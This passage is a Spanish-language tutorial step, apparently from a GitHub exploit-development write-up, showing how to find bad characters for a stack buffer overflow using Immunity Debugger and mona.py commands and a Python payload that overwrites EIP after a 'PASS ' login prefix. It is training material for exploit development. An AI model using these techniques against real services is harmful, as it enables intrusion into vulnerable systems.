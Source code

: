 ### Esto lo haríamos con el **immunity debugger** ingresando *!mona* para abrir el script en python y posteriormente ingresar los comandos: 

- ### **!mona**
- ### **!mona config -set workingfolder C:\\Users\\{user}\\Desktop\\{new_dir_name}** (Esto para crear un directorio de trabajo en nuestro escritorio)
- ### **!mona bytearray -cpb "\\0x"** (Para crear un byte array excluyendo el null byte en el directorio de trabajo previamente creado)

### La intención de esto, es que con todo el **byte array** donde en el script previamente ingresamos 200 caracteres "C" para ver que caracteres no salen representados en el stack para a la hora de crear el shellcode evitar los **badchars**. 

### Una vez enviado el **byte array**:

```python
# code .....
before_eip = b"A"*offset
eip = b"BBBB"
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = b'PASS ' + before_eip + eip + after_eip
# ..... code
```

### Veremos en el **immunity debugger** donde se corrompe el payload, para que de esta manera podamos empezar a detectar los **badchars**, si bien podemos hacerlo manual viendo que caracteres corrompen el programa, lo podemos hacer con **mona.py**: 

- ### **!mona compare -a 0x{ESP_value} -f C:\\Users\\{user}\\Desktop\\{new_dir_name}\\bytearray.bin**
